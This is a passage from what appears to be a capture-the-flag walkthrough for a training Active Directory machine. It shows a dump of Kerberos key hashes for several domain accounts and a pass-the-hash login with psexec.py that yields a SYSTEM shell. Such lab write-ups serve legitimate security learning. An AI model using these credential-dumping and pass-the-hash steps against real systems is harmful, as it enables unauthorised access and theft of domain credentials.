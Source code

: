     htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
    htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
    htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
    htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
    htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
    htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
    htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
    htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
    htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
    htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
    htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
    htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
    htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
    htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
    htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
    htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
    htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
    htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
    htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
    htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
    htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
    FOREST$:aes256-cts-hmac-sha1-96:6c999efa33443fd3eed29c97956db050aad6d3cfdefab4be5ec6f2613a540df9
    FOREST$:aes128-cts-hmac-sha1-96:7942e324a9af815c00545e9883b3b350
    FOREST$:des-cbc-md5:f27c07109798d6ce
    EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
    EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
    EXCH01$:des-cbc-md5:8c45f44c16975129
    [*] Cleaning up...
    ```
4. Login using the admin hash with `psexec.py`
    ```bash
    kali@kali:~/Desktop/tools/win/evil-winrm$ psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/Administrator@10.10.10.161
    Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.161.....
    [*] Found writable share ADMIN$
    [*] Uploading file WzSRurMN.exe
    [*] Opening SVCManager on 10.10.10.161.....
    [*] Creating service TOOR on 10.10.10.161.....
    [*] Starting service TOOR.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system
    ```


And we are Administrator.